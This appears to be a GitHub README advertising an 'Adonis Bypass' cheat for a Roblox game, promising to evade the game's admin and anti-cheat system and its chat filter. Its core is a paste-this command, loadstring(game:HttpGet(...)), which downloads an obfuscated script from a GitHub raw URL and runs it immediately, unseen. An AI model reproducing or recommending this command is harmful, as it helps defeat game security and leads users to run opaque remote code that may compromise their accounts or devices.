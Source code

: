 # Adonis Bypass | Official Website:
https://zo9070.vercel.app
## Best functioning Adonis Bypass that allows Public bathroom simulator to use ACL, chat bypasses.
# Ready to try? Use it now!
```loadstring(game:HttpGet("https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/obfuscatedscriptxd",true))()```

https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/2024100315230001.jpg
